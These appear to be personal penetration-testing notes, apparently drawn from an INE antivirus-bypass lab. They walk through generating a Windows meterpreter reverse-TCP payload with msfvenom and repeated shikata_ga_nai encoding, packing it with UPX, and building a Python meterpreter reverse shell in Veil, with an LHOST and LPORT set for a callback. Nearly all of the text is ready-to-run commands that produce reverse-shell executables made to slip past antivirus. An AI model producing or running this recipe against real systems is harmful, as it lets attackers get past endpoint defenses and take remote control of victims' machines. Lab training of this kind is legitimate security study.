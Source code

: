 AV Evasion
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.5.101 LPORT=4444 -f exe -e x86/shikata_ga_nai -i 5 > rTCPenc.exe
```
change iterations accordingly to make your payload obfuscate

Still didn't work, try this 
```
upx --best --ultra-brute -f rTCPenc.exe -o rTCPenc2.exe
```

Still not, use veil
```
veil
```
![[Pasted image 20240803184441.png]]

We will be using the **Evasion** payload:

**Command:**  

```
use 1
```

![Content Image](https://assets.ine.com/content/ptp/bypassing_av/12_10.png)

List the available payloads:

**Command:**  

```
list
```

![Content Image](https://assets.ine.com/content/ptp/bypassing_av/12_11.png)

Locate the `python/meterpreter/rev_tcp.py` payload:

![Content Image](https://assets.ine.com/content/ptp/bypassing_av/12_12.png)

It's located at number 28. Select that payload:

**Command:**  

```
use 28
```

![Content Image](https://assets.ine.com/content/ptp/bypassing_av/12_13.png)

For this payload, we will specify the `LHOST` and `LPORT` values and generate the payload:

**Commands:**  

```
set LHOST 172.16.5.101
set LPORT 4444
generate
```

Specify the resulting payload file name as **rTCPveil**.

![Content Image](https://assets.ine.com/content/ptp/bypassing_av/12_14.png)

We will be using **PyInstaller** to create the payload executable:

![Content Image](https://assets.ine.com/content/ptp/bypassing_av/12_15.png)

In a few seconds, the payload would be generated:

![Content Image](https://assets.ine.com/content/ptp/bypassing_av/12_16.png)

Press enter and enter `exit` command to exit the Veil Framework:

![Content Image](https://assets.ine.com/content/ptp/bypassing_av/12_17.png)

Copy the payload file to `/root` (the directory where the Python-based HTTP server is running):

**Commands:**  

```
mv /var/lib/veil/output/compiled/rTCPveil.exe .
file rTCPveil.exe
```

![Content Image](https://assets.ine.com/content/ptp/bypassing_av/12_18.png)


Still  not working using upx again
Pack the file using UPX:

**Command:**  

```
upx --best --ultra-brute -f rTCPveil.exe -o rTCPveil2.exe
file rTCPveil2.exe
```

![Content Image](https://assets.ine.com/content/ptp/bypassing_av/12_22.png)

Notice that the resulting executable `rTCPveil2.exe` is a UPX compressed PE32 executable!

Now It should work....!